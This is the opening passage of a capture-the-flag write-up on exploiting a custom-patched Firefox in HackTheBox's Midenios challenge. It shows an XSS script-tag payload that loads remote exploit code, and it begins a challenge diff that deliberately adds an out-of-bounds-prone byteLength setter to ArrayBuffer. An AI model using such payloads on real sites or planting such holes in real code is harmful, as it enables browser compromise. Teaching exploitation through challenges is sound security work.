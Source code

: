 ```yaml
---
categories:
- Browser Exploitation
image:
  path: ff_oob_midenios.png
layout: post
media_subpath: /assets/posts/2022-09-09-browser-exploitation-firefox-oob-to-rce
tags:
- binary exploitation
- browser exploitation
- firefox
- hackthebox
title: 'Browser Exploitation: Firefox OOB to RCE'
---
```


In this post, we will exploit Midenios, a good introductory browser exploitation challenge that was originally used for the HackTheBox Business-CTF. I had some experience exploiting IE/Edge/Chrome before, but exploiting Firefox was mostly new to me. I solved this challenge way after the CTF so I had some existing writeups to fall back on. There were a lot of excellent resources that helped with developing the exploit, here are some of them:

- <https://www.sentinelone.com/labs/firefox-jit-use-after-frees-exploiting-cve-2020-26950/>
- <https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/#force-the-jit-of-arbitrary-gadgets-bring-your-own-gadgets>
- <https://0xten.gitbook.io/public/hackthebox/business-ctf/2022/midenios> (writeup for this challenge)

Definitely check out the write-up by 0xten because it follows a different exploitation path after obtaining the read/write primitive. Since it’s been a long time since I did anything with Firefox there might be some inaccuracies – if you find something please let me know I want to learn more :)

## Vulnerability

The challenge itself has a website that allows you to submit unsanitized HTML input which is later visited by a bot. We can submit script tags to achieve a "persistent" XSS: `<script src="http://127.0.0.1/exploit.js"></script>`. The bot is using a vulnerable, custom-patched version of Firefox to visit the page and is executing the user-provided JavaScript.

Besides the website, we are provided an archive that contains a "patch.diff" which shows the changes made to the code base, and a "mozconfig" that shows that debug mode is enabled.

**mozconfig**

```
ac_add_options --enable-debug
```

**patch.diff** (shorted and commented, all changes to `js/src/vm/ArrayBufferObject.cpp,js/src/vm/ArrayBufferObject.h`):

```diff
# added a setter for byteLength 
-    JS_PSG("byteLength", ArrayBufferObject::byteLengthGetter, 0),
+    JS_PSGS("byteLength", ArrayBufferObject::byteLengthGetter, ArrayBufferObject::byteLengthSetter, 0),


# added implementation for the byteLength setter
+MOZ_ALWAYS_INLINE bool ArrayBufferObject::byteLengthSetterImpl(
+    JSContext* cx, const CallArgs& args) {
+  MOZ_ASSERT(IsArrayBuffer(args.thisv()));
+
+  // Steps 1-2
+  auto* buffer = &args.thisv().toObject().as<ArrayBufferObject>();
+  if (buffer->isDetached()) {
```